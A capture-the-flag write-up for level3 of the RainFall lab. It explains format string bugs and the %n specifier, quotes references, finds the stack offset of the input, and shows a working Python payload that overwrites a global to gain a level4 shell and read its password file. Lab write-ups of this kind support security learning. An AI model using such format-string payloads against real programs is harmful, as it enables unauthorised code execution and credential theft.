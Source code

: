 

"fuzzing or fuzz testing = testing technique that involves providing invalid, unexpected, or random data
as inputs to a computer program = The program then crashes"

"one key thing in hacking is about giving non intended inputs to programs and observe its behavior"

retrieve five parameters from the stack and display them as 8-digit padded hexa
```
level3@RainFall:~$ ./level3

%08x %08x %08x %08x %08x

00000200 b7fd1ac0 b7ff37d0 78383025 38302520
```
Uncontrolled format string

"One may also write arbitrary data to arbitrary locations using the %n format token, which commands printf()
and similar functions to write the number of bytes formatted to an address stored on the stack."

wiki

%n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf()  before the occurrence of %n
https://www.geeksforgeeks.org/g-fact-31/

```
#include<stdio.h>

int main()

{

   int c;
   printf("123456789A%n     \n", &c);
   printf("%d", c);
   return 0;
    
    // output
    // 123456789A     
    // 10
    
}
```

"the %n parameter, which writes the number of bytes already printed, into a variable of our choice.
The address of the variable is given to the format function by placing an integer pointer as parameter onto the stack."
https://cs155.stanford.edu/papers/formatstring-1.2.pdf



```
(gdb) run <<< "AAAA %p %p %p %p %p"

finding the offset of our input string in the stack
 
esp after fgets

(gdb) f
0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4f0:	0x41414141	0x20702520	0x25207025	0x70252070

level3@RainFall:~$ ./level3
AAAA %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```

41414141(the 4th hex value), 41 represent A so 4 is the offset of our input string in the stack.

from [the stanford article](https://cs155.stanford.edu/papers/formatstring-1.2.pdf):

```
a way to directly address a stack parameter from within the format string[...]
The direct parameter access is controlled by the ‘$’ qualifier.
printf ("%6$d\n", 6, 5, 4, 3, 2, 1);
Prints ‘1’, because the ‘6$’ explicitly addresses the 6th parameter on the
stack. 
```
```
Overwriting memory at any location

In printf(), %n is a special case format specifier. Instead of being replaced by a function argument,
%n will cause the number of characters written so far to be stored into the corresponding function argument.

For example, the following code will store the integer 5 into the variable num_char.

int num_char; 
printf("11111%n", &num_char);

https://vickieli.dev/binary%20exploitation/format-string-vulnerabilities/#overwriting-memory-at-any-location
```

so in our case

```
level3@RainFall:~$ ./level3
AAAA %p %4$x
AAAA 0x200 41414141
```

```
level3@RainFall:~$ (python -c 'print "\x08\x04\x98\x8c"[::-1] + "A" * 60 + "%4$n"' ; cat ) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
whoami
level4
cat //home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
"A" * 60 <===> "%60c"

ressource

[1](https://medium.com/@gurdeeps158/exploit-format-string-vulnerability-in-printf-6740d9ff057e)

[2](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b)




